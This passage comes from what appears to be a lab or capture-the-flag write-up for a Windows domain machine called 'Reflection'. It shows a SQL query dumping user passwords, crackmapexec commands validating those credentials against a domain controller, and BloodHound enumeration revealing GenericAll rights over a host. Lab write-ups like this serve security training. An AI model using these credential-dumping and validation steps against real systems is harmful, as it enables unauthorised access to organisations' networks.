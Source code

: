 ```
users        

SQL (web_prod  dbo@prod)> select * from users;
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'CMe1x+nlRaaWEw'   

 2   b'dorothy.rose'   b'hC_fny3OK9glSJ'   

SQL (web_prod  dbo@prod)>
```
Both of these credentials appear to be valid domain users:
```
crackmapexec smb 10.10.194.213 -u 'abbie.smith' -p 'CMe1x+nlRaaWEw'                                                                                                          
SMB         10.10.194.213   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)                           
SMB         10.10.194.213   445    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw                                                                                
crackmapexec smb 10.10.194.213 -u 'dorothy.rose' -p 'hC_fny3OK9glSJ'                                                                                                         
SMB         10.10.194.213   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)                           
SMB         10.10.194.213   445    DC01             [+] reflection.vl\dorothy.rose:hC_fny3OK9glSJ 
```
## MS01

Using the acquired domain credentials and `bloodhound-python`, i can dump information about the domain and import it to bloodhound. Interestingly, `abbie.smith` has `GenericAll` privileges over the MS01 host:

![bloodhound](/assets/screenshots/vulnlab-reflection/bloodhound.png)
